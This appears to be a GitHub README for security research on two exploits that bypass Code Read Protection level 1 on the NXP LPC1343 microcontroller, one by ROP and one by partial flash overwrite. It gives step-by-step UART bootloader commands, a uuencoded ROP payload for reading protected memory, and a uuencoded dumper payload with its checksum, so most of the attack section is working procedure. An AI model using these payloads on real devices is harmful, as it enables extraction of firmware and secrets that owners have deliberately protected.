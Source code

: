 # NXP LPC1343 CRP bypasses
This exploit bypasses CRP level 1 of the LPC1343 through Return-Oriented Programming and partial overwrite. We conduct the attack on the following development board: [LPC1343](https://www.digikey.com/catalog/en/partgroup/lpc1343-evaluation-board-lpc-p1343/33786). The serial communication for both attack scripts is based on [lpc-serial](https://github.com/zackpi/lpc-serial).

## ROP Exploit
The ```rop/``` directory contains the necessary files for this exploit. We assume the LPC is configured with CRP 1. Invoke the [rop](ROP/rop.py) script for the exploit.

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Let's try to read some memory, e.g. `R 0 4\r\n` - this will try to read 4 byte from 0x00, but will fail with error code `19` (CRP enabled) if chip is protected
 * Let's exploit, first send: `W 268443476 172\r\n`
 * Now, send this exploit to read from 0x000002fc (this is where CRP is stored): 
 ```
 L^PS_'____________`(``+L0_Q^[$/\?NQ#_'[L0_Q]_$?\?`````($._Q\`
 ```
 * This will give UUencoded memory block, you can repeatedly send `OK\r\n` to dump more memory
 
To change the read address, you need to adapt the address at offset 0x0C ... 0x0F (LSByte first)  in `Exploit_Read_CRP_Value.bin`. Then, `uuencode` this file, and copy only the actual encoded part. Do not include the header
```
begin 777 /dev/stdout
```
and the footer 
```
`
end
```

## Partial Overwrite Exploit
The scripts and code for this exploit are available in the ```partial_overwrite``` directory. The steps below outline the attack. This assumes that you have multiple devices with the same code (for example with ```Exploitable_UserCode.bin```). Invoke the [partial_overwite](partial_overwrite/partial_overwrite.py) script for the exploit. The below is an example to overwrite sector 1, and dump sector 0 and 2...7:

Enable Erase Command: U 23130

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Prepare Sector 1: `P 1 1\r\n`
 * Erase Sector 1: `E 1 1\r\n`
 * Write 256 bytes at 0x10001700 in RAM: `W 268441344 256\r\n`
 * Send the encoded dumper (see Dumper.c):
 ```
M"TL`(EEIB`;\U1+X`1NR]8!?&6#VT4_T`%)9:8D&_-42^`$;LO4`3QE@]M'I
MYP"_`(``0`"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
MOP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
?OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP``
```
* Send the checksum of the bytes: `25345\r\n`

* Prepare Sector 1: `P 1 1\r\n`

* Copy 256 bytes strating from address 0x10001700 in RAM to 0x1100 in flash: `C 4352 268441344 256\r\n`

* Reset - will now dump sector 0 and sectors 2...7


